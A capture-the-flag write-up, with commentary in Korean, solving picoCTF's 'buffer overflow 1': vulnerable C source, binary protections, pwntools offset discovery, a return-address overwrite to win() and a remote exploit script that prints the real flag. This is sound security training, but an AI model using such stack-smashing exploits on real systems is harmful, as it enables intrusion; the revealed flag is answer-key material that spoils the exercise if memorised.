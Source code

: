 # [buffer overflow 1](https://play.picoctf.org/practice/challenge/258?category=6&originalEvent=70&page=1)
<br />

**Discription:**
> Control the return address
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB pie executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buf_1/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```
<br />

> [!NOTE]
> ```bash
> $ cat flag.txt
> pico{this_is_flag}
> ```

<br />
<br />

소스코드를 보면 `gets(buf)`를 사용하는 것을 볼 수 있습니다. 해당 함수는 `"\n"`를 만날때까지 입력을 받으므로, 스택 버퍼오버플로우가 발생합니다. 이 취약점으로 `RET`을 `win`의 주소로 덮어쓰면 풀리는 간단한 문제입니다.

`RET`의 주소를 조작하려면 버퍼를 `RET` 직전까지 채워야합니다. 그러므로 버퍼에서부터 `RET`까지의 오프셋을 구하겠습니다.
```yaml
$ python3 -q
>>> from pwn import *
>>> p = process("./vuln")
[+] Starting local process './vuln': pid 594
>>> p.sendline(cyclic(100))
>>> p.wait()
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 594)
>>> Corefile("./core.594")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/buf_1/core.594'
    Arch:      i386-32-little
    EIP:       0x6161616c
    ESP:       0xffe84000
    Exe:       '/home/kali/pico/buf_1/vuln' (0x8048000)
    Fault:     0x6161616c
Corefile('/home/kali/pico/buf_1/core.594')
>>> cyclic_find(0x6161616c)
44
```
오프셋은 `44` 입니다. 이후 `RET`을 덮어쓰겠습니다.
```yaml
>>> e = ELF("vuln", checksec=False)
>>> p = process("./vuln")
[+] Starting local process './vuln': pid 661
>>> p.sendline(cyclic(44) + p32(e.sym["win"]))
>>> p.interactive()
[*] Switching to interactive mode
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 661)
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
pico{this_is_flag}
[*] Got EOF while reading in interactive
$
```
<br />
<br />

**remote:**
```python
from pwn import *

context.log_level = "error"

e = ELF("./vuln", checksec=False)
# p = e.process()
p = remote("saturn.picoctf.net", 61574)

p.sendline(cyclic(44) + p32(e.sym["win"]))
p.interactive()
```
```bash
$ python3 test.py
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}$
```
